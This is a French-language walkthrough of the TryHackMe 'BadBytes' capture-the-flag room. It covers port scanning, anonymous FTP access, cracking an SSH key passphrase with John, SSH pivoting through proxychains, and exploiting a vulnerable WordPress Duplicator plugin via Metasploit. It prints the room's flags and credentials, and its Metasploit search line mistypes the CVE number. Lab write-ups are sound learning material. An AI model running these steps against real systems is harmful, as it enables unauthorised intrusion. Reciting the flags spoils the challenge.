 ## BadBytes

Mes images ; https://medium.com/@BaldrTheKing/tryhackme-badbytes-74d697a63e72 

Reconnaissance;     
1. nmap -p- -Pn -T5 [IP]
2. nmap -p22,30024 -sC -sV [IP]

How many ports are open ? 2     
What service is running on the lowest open port? ssh    
What non-standard port is open? 30024 
What non-standard port is open? ftp

Le port non standard est le service ftp qui "normalement" est présent sur le 20 et 21. Mais souvent dans les challenges, il est caché ailleurs.

On peut se connecter sans mot de passe au service ftp   
command; ftp [IP] 30024 => entrer anonymous et espace
get [nom du fichier] pour télécharger les fichiers qui sont nécessaires. 

Foothold;   
1. dans le fichier notes.txt => on a un nom d'utilisateur "errorcauser"
2. /opt/john/ssh2john.py id_rsa > privatekey.hash
3. john privatekey.hash -w=/usr/share/wordlists/rockyou.txt

What username do we find during the enumeration process? errorcauser    
What is the passphrase for the RSA private key? cupcake 

Port Forwarding;
1.	ssh -i id_rsa -D 1337 errorcauser@[IP]
2. /etc/proxychains.conf (AttackBox de TryHackMe) il faut ajouter la ligne:  
socks5 127.0.0.1 1337   
il faut aussi changer static_chain pour dynamic_chain (avec le #)
3. proxychains nmap -sT 127.0.0.1 maintenant que c'est mis en place (permet de répondre à la question + pour la quatrième étape)
4. ssh -i id_rsa -L 8000:127.0.0.1:80 errorcauser@[IP] on fait le local port forwarding. Ca va nous permettre d'atteindre le site sur 127.0.0.1:8000 (le port 8000 est un choix perso, le port 80 c'est le résultat de nmap)

What main TCP ports are listening on localhost? 80,3306
What protocols are used for these ports? http,mysql

Web;

nmap -sC -p 8000 127.0.0.1
What CMS is running on the machine? Wordpress

nmap --script http-wordpress-enum -p 8000 127.0.0.1 
Can you find any vulnerable plugins? duplicator 1.3.26

What is the CVE number for directory traversal vulnerability?  CVE-2020-11738   
What is the CVE number for remote code execution vulnerability?
CVE-2020-25213

Dans metasploit, on utilise l'exploit qu'on peut trouver ici en tapant  
search CVE-2020-2513 

What is the name of user that was running CMS? cth  


What is the user flag? THM{227906201d17d9c45aa93d0122ea1af7}    
What is the user's old password? G00dP@$sw0rd2020 (dans /var/log dans bash.log)

On peut se connecter avec le nouveau mot de passe G00dP@$sw0rd2021 en tant que cth  

What is the root flag? THM{ad485b44f63393b6a9225974909da5fa} 

